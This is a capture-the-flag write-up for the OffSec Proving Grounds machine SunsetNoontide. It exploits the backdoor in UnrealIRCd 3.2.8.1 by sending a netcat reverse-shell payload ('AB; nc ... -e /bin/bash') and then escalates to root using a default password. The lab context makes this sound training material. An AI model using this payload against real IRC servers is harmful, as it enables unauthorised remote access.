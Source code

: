 ```yaml
---
title: "Proving grounds Play: SunsetNoontide"
layout: post
date: 2023-09-11 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
| irc-info: 
|   users: 1
|   servers: 1
|   lusers: 1
|   lservers: 0
|   server: irc.foonet.com
|   version: Unreal3.2.8.1. irc.foonet.com 
|   uptime: 205 days, 6:52:38
|   source ident: nmap
|   source host: 46E8C50E.C2311716.EA8777A3.IP
|_  error: Closing Link: aguqweprx[192.168.45.209] (Quit: aguqweprx)
Service Info: Host: irc.foonet.com6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd (Admin email example@example.com)
```

## Unreal3.2.8.1. irc.foonet.com

The Unreal3.2.8.1. irc.foonet.com is vulnerable to remote code execution. The simple way to exploit the vulnerability is to send OS commands follwed by the `AB;` string.

### Exploitation

Connect to the PORT using netcat. Make sure to run netcat listener on PORT 1234.

```sh
# connect to PORT 
nc -nv $IP 6667

# send payload after connection
AB; nc 192.168.45.209 1234 -e /bin/bash
```

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/shell.png)

## Privilege Escalation

Download and run [linPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/20230910-ae32193f/linpeas.sh).

The results shows the root user access can be obtained by switching to root using password as `root`.

![img](/assets/images/CTF/Proving_Grounds/SunsetNoontide/root.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
